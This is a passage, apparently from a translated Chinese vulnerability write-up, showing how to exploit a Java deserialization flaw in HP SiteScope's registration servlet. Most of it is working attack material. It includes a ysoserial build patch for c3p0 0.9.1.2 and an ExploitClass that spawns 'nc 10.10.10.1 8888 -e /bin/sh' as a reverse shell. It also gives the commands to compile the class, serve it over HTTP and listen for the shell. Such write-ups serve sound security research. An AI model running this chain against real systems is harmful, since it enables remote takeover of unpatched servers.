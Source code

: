 D 片段：com.hp.pr.legacy.sitescope.servlet.RegistrationServlet.doPost()

从前几行可以看出，这个 servlet 包含了一个经典的，运行中的 Java Deserialization 漏洞。HTTP POST 请求的请求体被变成了一个 ObjectInputStream，然后 readObject() 被调用。

触发这个漏洞是很简单的，只需要向 / legacy/topaz/sitescope/conf/registration 发送一个 POST 请求，请求体带有漏洞。

为了利用它，需要用 c3p0 0.9.1.2 编译 ysoserial。在编译前，应将 Snippet E 中的补丁应用于 ysoserial：

```
diff --git a/pom.xml b/pom.xml
index 73d39c4..9d27473 100644
--- a/pom.xml
+++ b/pom.xml
@@ -239,7 +239,7 @@
                <dependency>
                        <groupId>com.mchange</groupId>
                        <artifactId>c3p0</artifactId>
-                       <version>0.9.5.2</version>
+                       <version>0.9.1.2</version>
                </dependency>
                <dependency>
                        <groupId>javax.servlet</groupId>
```

代码集 E: 为 c3p0 0.9.1.2 编译的 ysoserial 打补丁。

为了在 Windows 中使用 c3p0 ysoserial 有效载荷进行利用，我们需要生成一个 "利用类"：

```
cat  << EOF > ExploitClass.java
public class ExploitClass {
  public ExploitClass() throws Exception {
    Runtime rt = Runtime.getRuntime();
    // for Linux
    String[] commands = {"/bin/sh", "-c", "nc 10.10.10.1 8888 -e /bin/sh"};
    // for Windows
    //String[] commands = {"cmd", "/c", "mspaint.exe"};
    Process pc = rt.exec(commands);
    pc.waitFor();
  }
}
EOF
```

样本 F：ExploitClass 代码

ExploitClass 代码需要用 Java 8 编译：

```
/usr/lib/jvm/java-8-openjdk-amd64/bin/javac ExploitClass.java
```

然后我们启动一个为对象服务的 Python 服务器，以及一个接收反向 shell 的监听器（假设我们攻击的是 Linux 服务器）:

```
python -m SimpleHTTPServer 4444 &
nc -lvknp 8888
```
